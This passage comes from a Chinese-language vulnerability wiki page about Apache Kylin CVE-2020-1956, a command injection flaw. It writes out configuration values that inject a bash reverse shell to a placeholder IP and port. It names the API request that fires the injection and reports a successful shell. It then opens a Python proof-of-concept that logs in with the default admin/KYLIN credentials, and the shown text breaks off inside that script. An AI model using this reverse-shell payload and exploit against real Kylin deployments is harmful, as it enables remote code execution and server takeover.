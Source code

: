 由此可以得出我们可以通过这两个可控的参数，执行任意我们需要的命令，例如反弹一个shell，设置的配置为

> [!NOTE]
>
> kylin.tool.auto-migrate-cube.enabled=true
>
> kylin.tool.auto-migrate-cube.src-config=echo;bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
>
> kylin.tool.auto-migrate-cube.dest-config=shell

![](http://wikioss.peiqi.tech/vuln/kylin-15.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

再去发送POST请求 **/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate**

![](http://wikioss.peiqi.tech/vuln/kylin-16.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功反弹一个shell

![](http://wikioss.peiqi.tech/vuln/kylin-14.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

> [!NOTE]
>
> POC利用前提是拥有账号密码，默认账号密码是 admin/KYLIN

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Kylin <= 3.0.1                                    \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7070                            \033[0m')
    print('+  \033[36mLogin  >>> admin:KYLIN(格式为User:Pass)                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    login_url = target_url + "/kylin/api/user/authentication"
    user_pass = str(input("\033[35mPlease input User and Pass\nLogin >>> \033[0m"))

    Authorization = "Basic " + str((base64.b64encode(user_pass.encode('utf-8'))),'utf-8')
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Cookie": "project=null"
    }
    try:
        response = requests.post(url=login_url, headers=headers, timeout=20)
        if "password" not in response.text:
            print("\033[31m[x] 账号密码出现错误 \033[0m")
            sys.exit(0)
        else:
```